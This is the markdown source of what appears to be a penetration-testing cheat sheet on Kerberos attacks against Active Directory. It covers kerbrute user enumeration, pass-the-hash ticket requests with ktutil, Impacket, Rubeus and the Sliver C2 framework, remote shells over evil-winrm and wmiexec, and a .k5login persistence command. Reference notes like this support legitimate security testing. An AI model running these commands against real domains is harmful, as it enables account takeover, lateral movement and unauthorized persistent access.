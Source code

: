 ```yaml
---
title: "Kerberos"
date: 2024-7-2
tags: ["kerberos", "kerbrute", "rubeus", "active directory", "ad", "domain controller", "Windows", "smb"]
---
```


### Users enum

{{< tab set1 tab1 active >}}kerbrute{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
kerbrute userenum --domain <DOMAIN> --dc <DC> <USERNAMES_FILE>
```

<small>*Ref: [kerbrute](https://github.com/ropnop/kerbrute)*</small>

{{< /tabcontent >}}

### Usernames generator

{{< tab set2 tab1 active >}}username-anarchy{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
./username-anarchy -i <USERS_FILE> | tee <USERNAMES_FILE>
```

<small>*Ref: [username-anarchy](https://github.com/urbanadventurer/username-anarchy)*</small>

{{< /tabcontent >}}

---

### Generate Kerberos ticket (From Linux)

{{< tab set3 tab1 active >}}Kinit{{< /tab >}}
{{< tab set3 tab2 >}}Impacket{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 1. Set up

```console
# Step 0: Installation
sudo apt install krb5-user cifs-utils
```

```console
# Step 1: Add domain controller to '/etc/hosts' (Try different order if not work)
<TARGET> <DC> <DOMAIN>
```

```console
# Step 2: Add domain controller as a DNS server to '/etc/resolv.conf' [optional]
nameserver <TARGET>
```

```console
# Step 3: Edit '/etc/krb5.conf' (All uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console
# Step 4: Sync time to domain controller
sudo ntpdate -s <DC>
```

#### 2a. With Password

```console
kinit <USER>
```

#### 2b. With NTLM hash

```console
ktutil
```

```console
add_entry -p <USER>@<DOMAIN> -k 1 -key -e rc4-hmac
```

```console
<HASH>
```

```console
write_kt <USER>.keytab
```

```console
exit
```

```console
kinit -V -k -t <USER>.keytab -f <USER>@<DOMAIN>
```

#### 3. Check ticket

```console
klist
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
# With password
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

```console
# With hash
sudo ntpdate -s <DC> && impacket-getTGT -hashes :<HASH> '<DOMAIN>/<USER>'
```

```console
# Import ticket
export KRB5CCNAME=<USER>.ccache
```

```console
# Check ticket
klist
```

{{< /tabcontent >}}

### Generate Kerberos ticket (From Windows)

{{< tab set4 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
# With password
.\rubeus.exe asktgt /user:<USER> /password:'<PASSWORD>' /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console
# With hash
.\rubeus.exe asktgt /user:<USER> /rc4:'<HASH>' /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console
# Check
klist
```

{{< /tabcontent >}}

### Generate Kerberos ticket (From C2)

{{< tab set5 tab1 active >}}Sliver{{< /tab >}}
{{< tabcontent set5 tab1 >}}

```console
# With password
rubeus -- 'asktgt /user:<USER> /password:<PASSWORD> /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console
# With hash
rubeus -- 'asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /dc:<DC> /ptt /nowrap'
```

```console
# Check
c2tc-klist
```

{{< /tabcontent >}}

---


### Winrm with Kerberos

{{< tab set6 tab1 active >}}evil-winrm{{< /tab >}}
{{< tab set6 tab2 >}}wmiexec{{< /tab >}}
{{< tabcontent set6 tab1 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console
# Step 2: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

{{< /tabcontent >}}
{{< tabcontent set6 tab2 >}}

```console
sudo ntpdate -s <DC> && impacket-wmiexec '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

{{< /tabcontent >}}

---

### Connect to SMB with Kerberos

```console
sudo ntpdate -s <DC> && impacket-smbclient '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

---

### Add Kerberos Access in Linux

```console
echo "<USER>@<DOMAIN>" > /home/<TARGET_USER>/.k5login
```
